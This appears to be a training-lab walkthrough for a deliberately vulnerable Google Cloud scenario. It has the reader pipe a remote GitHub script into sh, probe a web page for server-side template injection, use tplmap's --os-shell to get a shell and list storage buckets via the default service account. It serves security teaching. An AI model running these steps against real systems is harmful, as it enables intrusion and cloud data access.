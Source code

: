 # Privilege Escalation in Compute Engine


Inorder to start the scenario go to the `scenario-6` folder by typing the below command in the `GCLOUD SHELL`

```bash
cd scenario-6
```
Start the Scenario by typing the below command in the `GCLOUD Shell`


``` bash
./create-scenario-6.sh
```

> Note: It takes some time , so be patient 🧘‍♂️ Note down the ip


Now Go to the `Compute Engine` -> `VMInstance`

![](./images/2021-07-25-14-49-09.png)

Now click on the `ssh` , the New browser window will be open `ssh-terminal`  

![](./images/2021-08-07-14-42-31.png)

Type the below command in the terminal 

```bash 
curl https://raw.githubusercontent.com/JOSHUAJEBARAJ/hack/main/setup.sh | sh 
```

> Python Server will be started 



## Scenario Info

According to Google [Documentation](https://cloud.google.com/iam/docs/service-accounts) 

**A service account is a special kind of account used by an application or a virtual machine (VM) instance, not a person. Applications use service accounts to make authorized API calls, authorized as either the service account itself, or as Google Workspace or Cloud Identity users through domain-wide delegation.**


The default service account created with the VM Instance doesn't follow the least privilege principle be default its able to access the Google cloud bucket

Now Go to the below url

```
http://<ip-address>/page?name=Joshua
```
![](./images/2021-07-25-19-49-25.png)

Now try to use the different paramater 

```bash 
```

![](./images/2021-08-07-14-47-10.png)
Check whether the application is vulnerable to the template Injection

```
http://<ip>/page?name={{7*7}}
```

You could see the application is vulnerable to [template-Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection).

![tql](./images/2021-08-07-14-48-23.png)

### Solution

To exploit this vulnerability we are going to use the tool called [tplmap](https://github.com/epinna/tplmap)


```
./tplmap.py -u 'http://<ip>/page?name=John'
```

you will get the output like this 

![](./images/2021-07-25-19-59-09.png)

Now try to get the shell in the application 
```
./tplmap.py -u 'http://<ip>/page?name=jebaraj' --os-shell
```
Now inside the shell try to list the bucket 
```
gsutil ls 
```
![](./images/2021-08-07-14-53-53.png)
You will see the all buckets present in the project 
### Clean up



To clean up the `Scenario` type the below command in the `GCLOUD Shell`

``` bash
./delete-scenario-6.sh
```

